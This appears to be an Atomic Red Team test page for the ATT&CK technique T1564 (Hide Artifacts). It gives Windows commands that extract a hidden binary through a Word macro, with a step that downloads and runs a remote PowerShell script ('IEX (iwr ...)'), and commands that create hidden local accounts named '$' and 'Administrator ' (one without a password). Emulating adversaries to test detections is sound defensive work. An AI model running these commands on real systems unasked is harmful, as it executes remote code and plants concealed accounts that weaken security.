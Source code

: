 # T1564 - Hide Artifacts
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1564)
<blockquote>Adversaries may attempt to hide artifacts associated with their behaviors to evade detection. Operating systems may have features to hide various artifacts, such as important system files and administrative task execution, to avoid disrupting user work environments and prevent users from changing files or features on the system. Adversaries may abuse these features to hide artifacts such as files, directories, user accounts, or other system activity to evade detection.(Citation: Sofacy Komplex Trojan)(Citation: Cybereason OSX Pirrit)(Citation: MalwareBytes ADS July 2015)

Adversaries may also attempt to hide artifacts associated with malicious behavior by creating computing regions that are isolated from common security instrumentation, such as through the use of virtualization technology.(Citation: Sophos Ragnar May 2020)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Extract binary files via VBA](#atomic-test-1---extract-binary-files-via-vba)

- [Atomic Test #2 - Create a user called "$" as noted here](#atomic-test-2---create-a-user-called--as-noted-here)

- [Atomic Test #3 - Create an "Administrator " user (with a space on the end)](#atomic-test-3---create-an-administrator--user-with-a-space-on-the-end)


<br/>

## Atomic Test #1 - Extract binary files via VBA
This module extracts a binary (calc.exe) from inside of another binary. 

In the wild maldoc authors will use this technique to hide binaries inside of files stored 
within the office document itself. An example of this technique can be seen in sample

f986040c7dd75b012e7dfd876acb33a158abf651033563ab068800f07f508226

This sample contains a document inside of itself. Document 1 is the actual maldoc itself, document 2
is the same document without all the malicious code. Document 1 will copy Document 2 to the file system
and then "peek" inside of this document and pull out the oleObject.bin file. Contained inside of this
oleObject.bin file is a payload that is parsed out and executed on the file system.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
$macro = [System.IO.File]::ReadAllText("PathToAtomicsFolder\T1564\src\T1564-macrocode.txt")
$macro = $macro -replace "aREPLACEMEa", "PathToAtomicsFolder\T1564\bin\extractme.bin"
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroCode "$macro" -officeProduct "Word" -sub "Extract" -NoWrap
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\extracted.exe" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #2 - Create a user called "$" as noted here
Creating a user with a username containing "$"

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user $ ATOMIC123! /add /active:yes
```

#### Cleanup Commands:
```cmd
net user $ /DELETE 2>&1
```





<br/>
<br/>

## Atomic Test #3 - Create an "Administrator " user (with a space on the end)
Creating a user with a username containing with a space on the end

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-LocalUser -Name "Administrator " -NoPassword
```

#### Cleanup Commands:
```powershell
Remove-LocalUser -Name "Administrator " 2>&1 | out-null
```





<br/>
